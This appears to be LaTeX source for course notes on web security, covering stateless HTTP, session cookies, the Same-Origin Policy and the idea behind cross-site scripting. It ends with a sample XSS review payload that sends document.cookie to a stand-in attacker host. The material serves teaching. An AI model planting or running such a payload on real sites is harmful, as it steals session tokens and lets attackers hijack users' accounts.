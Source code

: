HTTP is a \textbf{stateless} protocol: each request is independent and the server has no built-in notion of a logged-in user.

\vspace{0.3em}

To implement sessions, a web application:

\begin{enumerate}
    \item Authenticates the user.
    \item Generates a random \textbf{session token}.
    \item Stores the token in a browser cookie.
    \item Receives the cookie in all subsequent requests.
\end{enumerate}

The session token therefore acts as a temporary proof of authentication.

\paragraph{Same-Origin Policy (SOP)}

A web page is normally only allowed to access data belonging to the \textbf{same origin}.

\vspace{0.3em}

An origin is defined by the triplet:

\[
(\texttt{protocol},\ \texttt{host},\ \texttt{port})
\]
\vspace{0.3em}
As a consequence, a malicious website cannot directly read another website's cookies, local storage, or page contents.


\paragraph{XSS: Key idea}

The goal of a Cross-Site Scripting attack is to execute attacker-controlled \texttt{JavaScript} inside a trusted website.



\vspace{0.3em}

For example, an attacker may submit the following review:

\begin{lstlisting}[language=HTML]
<script>
fetch("https://attacker.com/steal?c=" +
      encodeURIComponent(document.cookie));
</script>
\end{lstlisting}

